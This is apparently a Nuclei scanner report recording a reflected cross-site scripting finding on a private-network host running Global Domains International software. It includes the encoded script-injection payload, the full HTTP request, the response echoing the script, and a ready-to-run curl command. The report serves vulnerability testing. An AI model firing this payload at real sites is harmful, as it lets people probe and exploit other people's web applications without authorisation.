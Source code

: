 ### Global Domains International XSS (global-domains-xss) found on http://192.168.198.179:8080/
---
**Details**: **global-domains-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/index.dhtml?sponsor=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:22 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Global Domains International XSS |
| Authors | princechaddha |
| Tags | globaldomains, xss |
| Severity | medium |

**Request**
```http
GET /index.dhtml?sponsor=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 210
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/index.dhtml?sponsor=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://cxsecurity.com/issue/wlb-2018020247

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36' 'http://192.168.198.179:8080/index.dhtml?sponsor=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)